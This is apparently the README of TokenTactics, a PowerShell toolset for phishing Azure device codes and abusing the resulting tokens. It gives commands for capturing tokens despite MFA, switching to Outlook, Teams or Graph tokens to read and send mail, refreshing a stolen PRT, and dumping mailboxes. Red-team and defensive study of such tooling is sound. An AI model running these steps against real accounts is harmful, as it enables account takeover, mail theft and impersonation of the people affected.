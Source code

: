 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more.

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-AzureToken```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-ClearToken                                        0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                       0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                                    0.0.2      TokenTactics
Function        Get-AzureToken                                           0.0.2      TokenTactics
Function        Get-TenantID                                             0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                           0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                                     0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken                 0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                               0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                                 0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                            0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToO365SuiteUXToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                              0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

